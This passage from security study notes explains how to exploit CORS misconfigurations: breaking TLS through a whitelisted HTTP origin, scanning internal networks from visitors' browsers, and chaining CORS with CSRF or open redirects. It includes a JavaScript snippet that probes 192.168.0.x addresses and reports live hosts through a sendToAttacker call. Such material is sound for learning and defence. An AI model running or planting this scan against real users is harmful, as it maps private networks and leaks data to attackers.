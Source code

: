   - **Breaking TLS with poorly configured CORS**
    - Vulnerability: HTTPS site whitelists an HTTP origin in CORS policy
    - Attack steps:
      1. Victim makes any plain HTTP request
      2. Attacker intercepts and redirects to HTTP trusted origin
      3. Attacker intercepts that request and returns spoofed response with CORS request to HTTPS site
      4. Victim's browser makes CORS request including the HTTP origin
      5. HTTPS site allows the request due to whitelist and returns sensitive data
      6. Attacker's spoofed page reads and exfiltrates the data
    - Example scenario:
      - Secure site sets: `Access-Control-Allow-Origin: http://trusted-subdomain.example.com`
      - Attacker performs MITM attack to exploit the HTTP protocol in the trusted origin

  - **Attacking internal networks via CORS without credentials**
    - Vulnerability: Internal sites set `Access-Control-Allow-Origin: *` without requiring credentials
    - Exploitation technique:
      - Create public website that makes CORS requests to internal IP ranges
      - When internal users visit the public site, their browsers make requests to internal sites
      - Even without credentials, can map internal networks, access non-authenticated content, exploit vulnerabilities
    - Example reconnaissance script:
      ```javascript
      // Scan internal network range
      for (let i = 1; i < 256; i++) {
        fetch(`http://192.168.0.${i}/`)
          .then(response => {
            if (response.ok) {
              // Log discovered internal server
              sendToAttacker('http://192.168.0.' + i + ' exists');
            }
          })
          .catch(err => {
            // Handle errors or timeouts
          });
      }
      ```

  - **CORS misconfiguration on APIs**
    - Vulnerability: APIs with overly permissive CORS settings
    - Exploitation:
      - Test API endpoints with cross-origin requests
      - Look for sensitive data exposure, auth bypass, or administrative features
    - Common issues with APIs:
      - Setting `Access-Control-Allow-Origin: *` for convenience
      - Allowing credentials with loosely configured origins
      - Not validating the Origin header properly

- **Advanced CORS exploitation techniques**

  - **Combining CORS with other vulnerabilities**
    - CORS + CSRF: Bypass SameSite cookies and other CSRF protections
    - CORS + open redirect: Chain redirects to exploit trust relationships
    - CORS + client-side template injection: Execute JavaScript in trusted context
  